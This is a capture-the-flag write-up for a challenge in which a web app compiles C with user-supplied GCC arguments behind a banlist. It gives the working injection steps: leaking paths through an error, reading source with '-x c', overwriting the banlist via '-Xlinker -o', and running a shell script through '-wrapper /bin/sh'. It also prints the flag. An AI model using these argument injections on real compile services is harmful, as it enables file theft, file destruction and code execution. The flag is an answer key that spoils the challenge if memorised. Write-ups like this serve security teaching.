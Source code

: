 # GCC on fire

The application permits to compile C code using GCC. It allows the user to pass custom command-line arguments and environment variables to GCC but it has filter (`banlist.txt`).

## Steps
0. Try `-wrapper` but you get `Error: -wrapper is banned in the banlist.txt`

1. Throw an error to get the path of `__init__.py`:
Using `--help`, we get:
```
Traceback (most recent call last):
  File "/data/app/__init__.py", line 72, in compile_code
    with open(file_name[:-2], 'rb') as binary_file:
```
Indicating the source code of the application is in `/data/app/__init__.py`

2. Read source code using (https://gtfobins.github.io/gtfobins/gcc/):
```sh
-x c /data/app/__init__.py
```
We get:
```
...
/data/app/__init__.py:47:19: warning: character constant too long for its type
   47 |         with open('/data/15e94765365729ab9599cd8ba2a4634aa8bcd9ec3961daf633f611d9f575a48b/banlist.txt', 'r') as banlist_file:
...
```
So the banlist file is located at `/data/15e94765365729ab9599cd8ba2a4634aa8bcd9ec3961daf633f611d9f575a48b/banlist.txt` (you can try reading it)

3. Clear file banlist.txt using
```sh
-Xlinker -o/data/15e94765365729ab9599cd8ba2a4634aa8bcd9ec3961daf633f611d9f575a48b/banlist.txt
```
4. Print info using 
```
#!/bin/bash
cat /data/flag*
```

```
-wrapper /bin/sh,/tmp/b4a83739afac54d02a6175cb331c8e0bbc81f5fc69b3a9b7dc3a8a333da26f63.c
```

Flag: `GCC{gcc_1s_f0r_GNU_Compiler_Collection_0r_Galettes_Cidre_CTF???}`